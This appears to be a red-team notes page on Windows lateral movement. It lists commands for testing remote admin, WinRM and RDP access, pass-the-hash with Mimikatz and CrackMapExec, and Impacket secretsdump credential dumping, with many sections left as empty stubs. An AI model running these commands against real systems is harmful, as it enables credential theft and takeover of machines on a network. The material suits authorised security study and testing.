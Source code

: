 # Lateral Movement

The adversary is trying to move through your environment.

Lateral Movement consists of techniques that adversaries use to enter and control remote systems on a network.

Following through on their primary objective often requires exploring the network to find their target and subsequently gaining access to it. Reaching their objective often involves pivoting through multiple systems and accounts to gain. Adversaries might install their own remote access tools to accomplish Lateral Movement or use legitimate credentials with native network and operating system tools, which may be stealthier.

**Assumptions**

- We already obtained access to the internal environment.
- We are in possess of credential material for one or more users.
- We (optionally) obtained elevated access to one or more machines by unspecified means.

The techniques answer the question - **What type of access can I achieve with the current compromised user?**

When talking about local group membership, we will be mostly interested in being part of the following groups:

- Administrators
- Remote Desktop Users
- Remote Management Users
- Distributed COM Users

#### To check if user is part of Administrators group

The easiest way of determine whether we have local admin access (and therefore we’re part of the local Administrators group) to a remote machine is to attempt to list the content of the C: drive using the following command:

For a single machine

`dir \\<ip or hostname>\C$`

`powershell.exe Get-WMIObject -Class win32_operatingsystem -Computername <ip or hostname>`

For multiple machines

PowerView’s cmdlet Find-LocalAdminAccess that will simply output the machines where the current user have admin privileges.

#### To check if user is part of Remote Management Users

`Invoke-Command -Computername <ip or hostname> -ScriptBlock {whoami}`

#### To check if user is part of Remote Desktop Users

Attempt to RDP. Simple!

#### Check user's local groups

`whoami /groups`

### Access to File Shares

### Access Control Lists

### MSSQL Access

### WMI

### Remote Service Creation

### Remote Desktop Protocol

### PowerShell Remoting

### Password Spray

### RDP Session Hijack

### Pass The Hash

#### Mimilatz

The command should spawn a new cmd.exe process with the credentials of the user we’re trying to impersonate.

`privilege::debug`

`sekurlsa::pth /user:jeff /domain:hackerlab.com /ntlm:HASH /run:cmd.exe`

Pass the has without starting a session

`sekurlsa::pth /user:jeff /domain:hackerlab.com /ntlm:HASH`

Verify. check if you can run commands on DC

`PsExec.exe \\<IP of DC> cmd.exe`

#### Impacket

`secretsdump.py -hashes LM:NTLM ./Administrator@<ip>`

Examples

```
secretsdump.py -hashes 'LMhash:NThash' 'DOMAIN/USER@TARGET'
secretsdump.py -hashes ':NThash' 'DOMAIN/USER@TARGET'
secretsdump.py 'DOMAIN/USER:PASSWORD@TARGET'
```

#### CrackMapExec 

`crackmapexec smb <ip> -u <username> -H <hash> -x <command>`

Examples

`crackmapexec smb 192.168.1.105 -u Administrator -H 32196B56FFE6F45E294117B91A83BF38 -x ipconfig`

reference the cheatsheet

### Pass-the-Ticket

**Windows Lateral Movement** 

- Lateral Movement Article https://riccardoancarani.github.io/2019-10-04-lateral-movement-megaprimer/
- Pass the hash article https://www.hackingarticles.in/lateral-movement-pass-the-hash-attack/
- Pass the hash with Mimikatz https://blog.netwrix.com/2021/11/30/passing-the-hash-with-mimikatz/

